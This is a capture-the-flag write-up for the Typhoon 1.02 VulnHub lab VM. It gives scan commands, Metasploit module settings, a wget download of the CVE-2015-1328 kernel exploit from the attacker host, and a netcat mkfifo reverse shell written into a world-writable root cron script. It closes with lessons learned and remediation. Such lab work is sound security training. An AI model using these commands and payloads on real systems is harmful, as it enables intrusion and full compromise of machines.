



# Typhoon: 1.02 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.101 |
| **Difficulty** | Medium |
| **OS** | Linux (Ubuntu 14.04) |
| **Goal** | root flag (`root-flag`) |
| **Source** | [HackingArticles](https://www.hackingarticles.in/typhoon-1-02-vulnhub-walkthrough/) |
| **VulnHub** | https://www.vulnhub.com/entry/typhoon-102,267/ |

## Attack Summary

Typhoon 1.02 is a deliberately vulnerable VM with multiple services and four distinct exploitation paths. The primary path extracts credentials from an exposed MongoDB admin interface, logs in via SSH, and escalates privileges using a local kernel exploit (CVE-2015-1328, exploit-db 37292). Alternative paths include Apache Tomcat Manager file upload, Drupalgeddon2, and Lotus CMS PHP execution, each of which can then leverage a root-owned world-writable script or the kernel exploit.

## Methodology

1. Host discovery and full port scan
2. Web enumeration on ports 80 and 8080
3. **Path 1:** MongoDB credential extraction → SSH → kernel exploit (root)
4. **Path 2:** Tomcat Manager upload → Meterpreter → writable script → root
5. **Path 3:** Drupal RCE (Drupalgeddon2)
6. **Path 4:** Lotus CMS RCE

## Step 1: Reconnaissance

### Host Discovery

```bash
netdiscover
```

Target identified at `192.168.1.101`.

### Full Port Scan

```bash
nmap -A 192.168.1.101
```


Open ports:

| Port | Service |
|---|---|
| 21 | FTP |
| 22 | SSH |
| 25 | SMTP |
| 53 | DNS |
| 80 | HTTP (Apache) |
| 110 | POP3 |
| 111 | rpcbind |
| 139/445 | NetBIOS/SMB |
| 143 | IMAP |
| 631 | IPP (CUPS) |
| 993 | IMAPS |
| 995 | POP3S |
| 2049 | NFS |
| 3306 | MySQL |
| 5432 | PostgreSQL |
| 8080 | HTTP (Apache Tomcat/Coyote JSP 1.1) |

### robots.txt

```bash
curl http://192.168.1.101/robots.txt
```

The file contains a reference to `/mongoadmin/` — a MongoDB admin web interface.

## Step 2: Web Enumeration

### Directory Brute-Force

```bash
dirb http://192.168.1.101
```

Finds `/drupal/` and `/cms/` in addition to `/mongoadmin/`.

### Port 8080 — Tomcat

Navigate to `http://192.168.1.101:8080`. Apache Tomcat Manager is accessible. Test default credentials:

- `tomcat` / `tomcat` — **success**

---

## Path 1: MongoDB → SSH → Kernel Exploit (Recommended)

### Step 3a: MongoDB Credential Extraction

Browse to `http://192.168.1.101/mongoadmin/`. Set the database to `credentials` (listed at ~84 MB).

The collection reveals two credential entries. Note the credentials for user `typhoon`.





**Credentials:** `typhoon` / `789456123`

### Step 4a: SSH Login

```bash
ssh typhoon@192.168.1.101
# Password: 789456123
```

### Step 5a: Kernel Exploit — CVE-2015-1328

Check the OS version:

```bash
uname -a
lsb_release -a
```

Ubuntu 14.04 is vulnerable to a local privilege escalation via the overlayfs filesystem driver (CVE-2015-1328).

Search for a matching exploit:

```bash
searchsploit ubuntu 14.04 local
```



Exploit: `37292.c` (Exploit-DB 37292).

On the attacker machine:

```bash
cp /usr/share/exploitdb/exploits/linux/local/37292.c /root/
cd /root
python3 -m http.server 80
```

On the target:

```bash
cd /tmp
wget http://192.168.1.109/37292.c
ls
gcc 37292.c -o rootshell
chmod 777 rootshell
./rootshell
```

Root shell obtained.

### Step 6a: Read the Flag

```bash
cd /root
ls
cat root-flag
```


---

## Path 2: Tomcat Manager → Meterpreter → Root

### Step 3b: Metasploit Tomcat Manager Upload

```bash
msfconsole
use exploit/multi/http/tomcat_mgr_upload
set rhost 192.168.1.101
set rport 8080
set httpusername tomcat
set httppassword tomcat
exploit
```

A Meterpreter session opens. Drop to a shell:

```bash
shell
```

### Step 4b: Writable Root Script

Enumerate writable files and directories:

```bash
find / -writable -type f 2>/dev/null | grep -v proc
ls -la /tab/script.sh
```

The file `/tab/script.sh` is owned by root but world-writable.

### Step 5b: Overwrite script.sh

Generate a netcat reverse shell:

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=192.168.1.109 lport=1234 R
```

Overwrite the script:

```bash
echo "mkfifo /tmp/vvwjo; nc 192.168.1.109 1234 0</tmp/vvwjo | /bin/sh >/tmp/vvwjo 2>&1; rm /tmp/vvwjo" > /tab/script.sh
```

Start a listener on port 1234:

```bash
nc -lvnp 1234
```

When the script executes (via cron or another trigger), a root shell arrives.

---

## Path 3: Drupalgeddon2 (CVE-2018-7600)

```bash
msfconsole
use exploit/unix/webapp/drupal_drupalgeddon2
set rhost 192.168.1.101
set targeturi /drupal
exploit
```

Meterpreter session as www-data. Escalate to root using Path 1's kernel exploit method.

---

## Path 4: Lotus CMS RCE

```bash
msfconsole
use exploit/multi/http/lcms_php_exec
set rhost 192.168.1.101
set uri /cms/
exploit
```

Meterpreter session obtained. Escalate to root as above.

---

## Vulnerabilities Found

| # | Vulnerability | Location | Severity |
|---|---|---|---|
| 1 | MongoDB admin interface exposed with no authentication | Port 80 `/mongoadmin/` | Critical |
| 2 | Plaintext credentials in MongoDB | `credentials` collection | Critical |
| 3 | CVE-2015-1328 (overlayfs LPE) | Ubuntu 14.04 kernel | High |
| 4 | Tomcat Manager with default credentials | Port 8080 | Critical |
| 5 | World-writable root-owned cron script | `/tab/script.sh` | Critical |
| 6 | Drupalgeddon2 (CVE-2018-7600) | `/drupal/` | Critical |
| 7 | Lotus CMS unauthenticated PHP execution | `/cms/` | Critical |

## Lessons Learned

- Every exposed service is an attack surface. This VM's breadth of open ports means any one service compromise can lead to root.
- MongoDB admin interfaces must never be exposed without authentication on production or network-reachable systems.
- Long-unpatched Ubuntu kernels (14.04 EOL) have well-known local escalation exploits in public databases.
- Default credentials on Tomcat Manager are universally known and exploited; always change them immediately after deployment.

## Remediation

| Vulnerability | Fix |
|---|---|
| MongoDB exposed admin | Bind MongoDB to localhost; remove `mongoadmin` from web root |
| Default Tomcat credentials | Change `tomcat-users.xml` credentials; remove Manager app if unused |
| Unpatched kernel | Update to a supported Ubuntu LTS release with regular patching |
| Writable root scripts | `chmod 700 /tab/script.sh; chown root:root /tab/script.sh` |
| Drupal outdated | Update Drupal core; apply security advisories SA-CORE-2018-002 |
| Lotus CMS exposed | Remove or update `/cms/`; restrict with authentication |
